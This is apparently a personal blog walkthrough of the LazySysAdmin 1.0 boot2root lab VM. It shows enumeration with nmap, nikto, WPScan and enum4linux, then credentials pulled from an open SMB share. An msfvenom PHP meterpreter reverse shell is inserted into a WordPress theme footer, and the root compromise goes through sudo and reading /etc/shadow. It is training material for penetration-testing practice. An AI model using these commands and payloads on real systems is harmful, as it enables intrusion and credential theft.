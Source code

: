 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate

Challenge: Accepted

I imported to VMware Workstation, using a host only subnet for this and my Kali VM.

Run a quick `netdiscover` to gather the target's IP and an `ifconfig` to confirm my attacker IP.

Now I can really start things off with an Nmap scan.

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

So there's a few different places to start, but I'll take a look at the website on Port 80 first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more web enumeration.

I'll go with trusty old Nikto here, and move to Dirbuster, etc if needed.

`nikto -h 192.168.17.139`

![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here. First off, the robots.txt shows the same directories as the Nikto scan, so that's a wash. The `/old/` and `/test/` directories show nothing at all, so moving on. I poked a little bit at the `/myphpadmin/` page but it requires a password. A few guesses at username/password combos proved useless... meh, moving on for now.

There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login page.

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks like the most viable path at the moment, and it would be a quick reverse shell if I can work my way in.

It's time for some WPScan to see what usernames are there.

![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)

![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.

Trying some WPScan Brute Force, I scraped the site with Cewl:

`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`

Then ran it through some mutations with John The Ripper:

`john --wordlist=/root/lazycewl.txt --rules --stdout > lazymutate.txt`

Using WPscan to try and Brute Force the password:

`wpscan -u http://192.168.17.139/wordpress/ -w /roo/lazymutate.txt -U admin`

No hits, and I also tried rockyou for a few minutes before cancelling it. Brute force is probably not the answer at this point, but we can return to it if no other information is found. Maybe the password is somewhere else.

Time to check the SMB port and see if there is any relevant data to be found. I probably could have done this a little earlier and saved some time, but here goes.

`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LASenum4linux.png)

There are a few options, but `share$` looks interesting since it is not a default.

I connect to share as guest.

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing directories or files.

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


The `get` command works, so grabbed the wp-config.php file and viewed it on my system.

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)

Trying the password found in the WordPress Admin panel and what do you know, the password works.

Now it's time for time get a quick reverse shell on the machine. To do this I will generate a Meterpreter shell using the following command:

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

Note: Meterpreter is not really needed, I could have tried any number of php reverse shells, but I wanted the meterpreter one for the `shell` command so that if I do something to botch my shell I can simply end the session instead of havnig to reconnect entirely.

Once the shellcode is generated, I do a little touch up on the format (remove leading `//` and add `?>` to the end), then add to footer.php of theme.

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)

Get meterpreter ready by confirming all options are set appropriately (Payload/LHOST/LPORT)

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)

Now type run and reload the wordpress site.

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)

The reverse shell is successful, getting some system info.

I tried the WordPress password for root, but it isn't working.

Moved to /tmp and did a quick wget from my attack machine (ensure apache is running on Kali) to download the linuxprivchecker.py script. Ran it, but found nothing obvious. I'll poke around some more with what I already have and come back to it if I get stuck.

Maybe there is another user in the database or another database.

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users.

What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)

User `togie` looks interesting. I tried swiching to togie with the WordPress password, but no go.

Did I overlook something previously?

Yes, actually. It occurs to me tht I haven't explored my SMB share nearly enough. so I go back to the SMB share and grab deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

Now that's promising.

Back to my low priv shell, now I'm able to switch to togie with the newly discovered password, and I see the user is in the sudo group as well.

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)

Let's see what I can do with sudo access.

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

Looks like a restricted shell, but this doesn't faze me.

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)

Proof.txt is mine, plus I have the root password hash if I want to crack it later.

I could experiment with breaking out of the restricted shell (probably vim would work here), but I didn't bother at this point.


Overall, I think this was a good challenge, and a good reminder to enumerate thoroughly before moving too fast from one phase to the next.
